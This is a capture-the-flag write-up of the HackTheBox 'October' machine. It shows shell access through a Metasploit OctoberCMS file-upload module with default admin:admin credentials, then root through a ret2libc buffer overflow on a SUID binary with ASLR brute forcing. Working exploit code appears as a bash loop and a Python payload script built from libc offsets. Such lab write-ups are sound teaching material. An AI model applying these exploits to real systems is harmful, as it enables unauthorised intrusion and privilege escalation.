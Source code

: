```yaml
---
layout: post
title:  "Hackthebox - October"
date:   2020-08-08 19:24:55 -0700
categories: hackthebox writeups medium
tags: hackthebox ctf october webshell ubuntu linux bof exploit file-upload nmap ret2libc  
---
```


This is a medium box made by ch4p which was super awesome because of the user to root privesc where you had to exploit a SUID binary running as root vulnerable to the ret2libc attack. We also had to do ASLR bruteforcing as it was enabled on the box.

First up I ran an nmap scan, 2 ports were revealed:

```bash
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
```

First up we got ssh on port 22, nmap tells us the box runs Ubuntu based on it.

We also see a HTTP port open which runs OctoberCMS under Apache

![image](/assets/images/htb_october_80.png)

I fired up metasploit and searched for modules related to octobercms and found one which uploads a php file and executes it

![image](/assets/images/htb_october_msf.png)

As it was asking for creds I decided to use the default one's which are `admin:admin`, and to my surprise I got a shell as www-data, which had access to the `user.txt` file, this way we owned user

![image](/assets/images/htb_october_shell.png)

By searching for SUID files I found `/usr/local/bin/ovrflw`

![image](/assets/images/htb_october_suid.png)

I was able to trigger a segmentation fault by sending 500 A's using python

![image](/assets/images/htb_october_rseg.png)

I then downloaded the binary to my box using `meterpreter`'s `download` command and tried triggering a segfault there too

![image](/assets/images/htb_october_lseg.png)

Using gdb-peda I generated a pattern of 2000 bytes 

![image](/assets/images/htb_october_pat.png)

Then I ran the binary...

![image](/assets/images/htb_october_pedaseg.png)

This caused a seg fault, I used `pattern_search` I was able to identify EIP's offset being `112`, this is very important.

Aftering doing more research I found out that a ret2libc payload should be as following:

![image](https://cdn.discordapp.com/attachments/670978545379704863/742355039661588500/unknown.png)

So

```py
payload = junk + system_address + exit_address + binsh_address
```

We already know our junk should be `112` bytes, we can define it as following:

```py
junk = "A" * 112
```

I went back to the box to get the libc address (which we will need later), `/bin/sh`'s address, exit's address and system's address

Address of libc:

```bash
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75f8000)
```

So 

```py
libc_address = 0xb75f8000
```

Finding the address of exit and system is easy

We find their offsets: 

```bash
www-data@october:/dev/shm$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```

In my case:

`0x33260` - exit

`0x40310` - system

Then we grab the base address of libc, which was `0xb75f8000`, and then we add that to our offsets

LIBC            + OFFSET        = ADDRESS

`0xb75f8000`    + `0x33260`     = **0xB762B260** (_exit_)

`0xb75f8000`    + `0x40310`     = **0xB7638310** (_system_)

Next up we need to find the address of `/bin/sh`

```
www-data@october:/dev/shm$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh" 
 162bac /bin/sh
```

Again the offset is `162bac`, we can find it same way as others

LIBC            + OFFSET        = ADDRESS

`0xb75f8000`    + `162bac`     = **0xB775ABAC** (_/bin/sh_)

After finding all addresses I built a shell script which would continously ran the binary using our payload generated by python, as ASLR is enabled we would have a chance that the addresses would match our payload's addresses, giving us a /bin/sh shell as whoever was running the binary, in our case `root` because the binary has SUID.

```bash
while true
do 
./ovrflw `python -c "print \"\x90\"*112 + \"SYSTEM ADDRESS IN LITTLE ENDIAN FORMAT\" + \"EXIT ADDRESS IN LITTLE ENDIAN FORMAT\" + \"BIN/SH IN LITTLE ENDIAN FORMAT\""`
done
```

If you want to use python for this, here is enox's solution:

```py
#!/usr/bin/env python

import struct
from subprocess import call

offset="A"*112

libc_baseaddr = 0xb75e0000
system_off = 0x00040310
exit_off = 0x00033260
command_off = 0x00162bac #/bin/sh

system_addr = struct.pack("<I",libc_baseaddr+system_off)
exit_addr = struct.pack("<I",libc_baseaddr+exit_off)
command_addr = struct.pack("<I",libc_baseaddr+command_off)

payload = offset + system_addr + exit_addr + command_addr

i = 0
while (i < 512):
    print "Try : %s" %i
    i += i
    ret = call(["/usr/local/bin/ovrflw", payload])
```

If you don't know how to convert hex to little endian, here's are few ways:

![image](https://metahash.zendesk.com/hc/article_attachments/360014619234/Little_endian.jpg)

So `0x12345678` would be `\x78\x56\x34\x12` in python 

Alternatively you can use the struct module from python, example from enox's code would be this

```py
system_addr = struct.pack("<I",libc_baseaddr+system_off)
```

So this

```py
struct.pack("<I", 0x12345678)
```

Would convert `0x12345678` to little endian

Credits:
- [https://metahash.zendesk.com/hc/en-us/articles/360010374753-Little-endian-format](https://metahash.zendesk.com/hc/en-us/articles/360010374753-Little-endian-format) - For the image
- Enox for the code
- 0xdf for helping me learn how to brute force aslr and some snippets of text from his blog :P
